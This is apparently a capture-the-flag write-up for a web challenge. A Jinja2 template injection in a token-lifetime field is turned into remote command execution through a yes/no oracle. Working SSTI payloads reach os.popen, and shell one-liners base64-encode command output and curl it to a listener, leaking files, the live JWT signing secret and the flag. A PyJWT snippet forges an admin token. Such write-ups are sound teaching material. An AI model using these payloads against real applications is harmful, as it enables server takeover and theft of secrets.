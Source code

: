 # Secure Rendered JWT – Writeup

![Challenge](./pictures/aa.png)


- Web page with a login form, username and “how many minutes the token is valid.”
- Tokens were symmetric HS256.
- Timezone Europe, Oslo, irrelevant to the exploit, useful while checking `exp`.

---

I started by treating the minutes box like a normal integer input, and watched how `exp` moved.

- `10` produced a token valid for 10 minutes.
- `1` produced a token valid for 1 minute.
- Any number over 10 was clamped to 10.
- I tried words, since the UI hinted Norwegian numbers:
  - `en` without quotes consistently ended up as 10, likely a default branch.
  - `'en'` with quotes was understood as 1.
  - `'to'` as 2, `'tre'` as 3.
  - Numbered text like `'femtifem'` fell back to 10.

This told me something was rendering, not just parsing integers. The quoted words working was the first sign that a template was involved.

---

I was not yet sure where this was going, I paid 75 points for the hint.  
The hint said: **“the new cool way to convert stuff into integers was using Jinja2.”**

I read a couple of Jinja2 SSTI articles. The standard probe is `{{7*7}}`.  
I tried a few basics in the minutes field:

`{{7*7}}`
`{{2*3}}`
`{{"a"*5}}`

Every one of these crashed the page with a 500 error. That confirmed templating, but also told me that whatever wrapped my input expected it to evaluate into something that could be converted to a number, or a known word.

---

Since quoted Norwegian numbers were mapped to minutes, I tried a Jinja inline if that always returned one of those words, never raw numbers. This keeps the app happy and gives me a yes or no channel:

```
'en' if <condition> else 'to'
```
If true, the token had 1 minute on the expiration, if false, 2 minutes. That meant I could test arbitrary conditions without crashing.

I checked whether it had 1 or 2 minutes from expiring using jwt.io

![Challenge](./pictures/jwt.png)


The first big reveal:

```
'en' if cycler.__init__.__globals__.__builtins__.__import__ else 'to'
```
Why this, and what it does:
cycler is a benign Jinja helper that is always in scope.

From cycler.__init__ you can access its __globals__.

Inside globals, you can grab __builtins__.

Then you can reach __import__.

It returned 1, so the template could reach Python builtins.

---

Next, import os (the os module gives direct access to the filesystem, environment variables, and command execution):

```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os') else 'to'
```
This also returned 1, so I had the os module.
I tried environment, files, and commands, always wrapped in the oracle:

Check env is accessible
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').environ else 'to'
```
Check a known file name in the working dir
```
'en' if 'requirements.txt' in cycler.__init__.__globals__.__builtins__.__import__('os').listdir('.') else 'to'
```
Check for command execution
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen else 'to'
```
These all returned 1, so I had everything I needed.
RCE and Exfil.

---

Dumping big strings into the minutes field would crash, so the plan was to run a command server side and send the result over HTTP to my own listener.

On my Mac, I used netcat.

To avoid spaces, quotes, and newlines breaking the request path, I base64-encoded on the server before curling home. Example pattern:
```
bash -c 'echo "hello" | base64 | xargs -I{} curl http://ip:port/{}'
```

Inside the minute field, I put it in as:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'echo hello | base64 | xargs -I{} curl ip:port'") else 'to'
```

My listener received an HTTP GET request containing the base64-encoded result, which I then decoded locally with base64 -d.

---

## Dead end 

Here I fell into a rabbit hole.

The challenge name and the UI suggested JWTs mattered. I checked how tokens were created and verified by grepping the source through my oracle, for example:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("grep -R 'jwt.decode' . | base64 | xargs -I{} curl http://ip:port/{}") else 'to'
```
From there and from exfiltrated code chunks, I learned:
```
JWT_SECRET = os.urandom(32).hex()
jwt.encode(payload, JWT_SECRET, algorithm="HS256")
```
So the signing key was a fresh 64 hex string on each server start, not a static value in the repo, which explained why forged tokens could suddenly stop working after a restart.
I proved I could pull the live secret over the same exfil route:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'python3 -c \"import app; print(app.JWT_SECRET)\" | base64 | xargs -I{} curl http://ip:port/{}'") else 'to'
```

The listener received a base64 blob, which decoded to the current 64 hex key.
I minted an admin token with PyJWT:

```
import jwt, time
secret = "6318ccead28b8819fe24e43b5d971613dee6b7ae83ee414df99167f19"  # example pulled live
payload = {"username": "admin", "admin": True, "exp": int(time.time()) + 3600}
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
---

Replacing the cookie crashed with 500. When it crashed, the box had restarted and the secret had rotated, so the token was now invalid. Essentially I had gotten something that I could've just done with jwt.io, so I figured this wasn't the intended way. 

---

## Getting the flag

I tried listing the files that exist to see if there was a different path.

I used:
```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("ls -R . | base64 | xargs -I{} curl http://ip:port/{}") else 'to'
```
Decoding the output gave a short tree, with files like:
```
Dockerfile
app.py
solve.py
flag.txt
```
...
Well there it was. 

Same recipe:
 ```
'en' if cycler.__init__.__globals__.__builtins__.__import__('os').popen("base64 flag.txt | xargs -I{} curl http://ip:port/{}") else 'to'
 ```
On my listener I received and decoded it.

The result was the flag:
```
CTFkom{2856b8be333804a318817f1ee4e6dec8}
```